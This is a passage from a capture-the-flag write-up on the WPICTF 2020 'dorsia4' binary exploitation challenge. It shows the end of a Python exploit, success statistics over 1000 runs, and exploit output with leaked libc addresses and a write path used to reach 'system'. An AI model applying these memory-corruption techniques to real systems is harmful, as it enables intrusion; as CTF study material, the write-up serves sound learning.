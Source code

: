```python
print(int(time.time() - t),end="")
print(" seconds")
```

Using recursion and checking all possible options it is now possible without adding `libc.symbols['dprintf']` to the list of safe address to solve this challenge.

After 1000 runs, here's the stats:

```
# sed 's/SIGSEGV.*/SIGSEGV/' test1000c.out | egrep "(path|SIG|WPI|dorsia4)" | sort | uniq -c | sort -r -n
   1000 [*] '/pwd/datajerk/wpictf2020/dorsia4/nanowrite'
    605 b'WPI{D0_you_like_Hu3y_Lew1s_&_the_News?}\n'
    369 no path for you!
    357 path found (len: 21):
    274 path found (len: 19):
     26 [*] Process './nanowrite' stopped with exit code -11 (SIGSEGV
```

The previous code could not find a path ~1/8th of the time.  The newer version without `dprintf` added as a safe address is worse at ~3/8ths making the likelihood of a flag ~60%.  `SEGSEGV`s are down as well, but proportional to the number of good paths, so, no surprise.

The paths are also completely different without `dprintf`, implying there was never a path with the previous code that did not bounce through `dprintf`.

This is the solution I was working for before the end of the CTF.  Sadly I just failed to find every nopsled.


#### Output

```
# ./exploit2.py
[*] '/pwd/datajerk/wpictf2020/dorsia4/nanowrite'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to dorsia4.wpictf.xyz on port 31337: Done
[*] '/pwd/datajerk/wpictf2020/dorsia4/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
system:  0x7e0e3d0b8440
libc:    0x7e0e3d069000
printf:  0x7e0e3d0cde80

computing safe addresses...0 seconds
building graph...11 seconds

path found (len: 21):

0xcde80
0xcde73
0xc7973
0xc793f
0x17793f
0x179a3f
0x179a50
0x179950
0x179990
0x17ad90
```